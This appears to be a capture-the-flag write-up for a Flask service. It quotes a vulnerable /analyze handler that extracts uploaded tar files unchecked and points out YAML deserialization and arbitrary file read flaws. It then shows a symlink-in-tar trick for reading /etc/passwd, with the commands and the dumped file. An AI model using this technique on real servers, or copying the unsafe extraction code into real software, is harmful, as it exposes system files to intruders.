 `/analyze` interface allow you to upload a tar file , the server will  use `Tarfile().extractall()` to extract the tar file which lead to the vuln of arbitrary file write .

```python
@app.route('/analyze', methods=['POST'])
def analyze():
    try:
		fn = 'temp/{}.tar'.format(md5(request.remote_addr.encode()).hexdigest())
		if request.method == 'POST':
			fp = request.files['file']
			fp.save(fn)
			if not is_tarfile(fn):
				return '<script>alert("Uploaded file is not \'tar\' file.");history.back(-1);</script>'
			tf = TarFile(fn)
			tf.extractall(fn.split('.')[0])
			bd1 = fn.split('/')[1].split('.')[0]
			bd2 = fn.split('/')[1]
			print(bd1)
			print(bd2)
			print(tf.getnames())
			return render_template('analyze', path=bd1, fn=bd1, files=tf.getnames())
	except Exception as e:
		print(e)
		return response('Error', 500)
	finally:
		try:
			os.remove(fn)
		except:
			return response('Error', 500)
```

You can get the file from `<path:host>` interface , which have another vuln of  arbitrary file read .😂

In the program ,  `initializing()`  wriete data to config.yaml with  `dump()`  and use `load()` to load the data, this lead to YAML Deserialization Attack in Python .Now that we have found the vulns of this program , we should find a path to accesss the sink.

Here are 2 ways to getflag:

### 1: Arbitrary file read

When u use tar command to compress files (with soft links in these files) , after extracted all files you can abuse the soft links to read files! This vuln has a long history , but still exist :(  . 

```bash
# verify the vuln
sudo ln -s ../../../../../../../../../etc/passwd  passwdlink
tar -cvf link.tar passwdlink

root:x:0:0:root:/root:/bin/ash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/spool/mail:/sbin/nologin
news:x:9:13:news:/usr/lib/news:/sbin/nologin
uucp:x:10:14:uucp:/var/spool/uucppublic:/sbin/nologin
operator:x:11:0:operator:/root:/bin/sh
man:x:13:15:man:/usr/man:/sbin/nologin
postmaster:x:14:12:postmaster:/var/spool/mail:/sbin/nologin
cron:x:16:16:cron:/var/spool/cron:/sbin/nologin
ftp:x:21:21::/var/lib/ftp:/sbin/nologin
```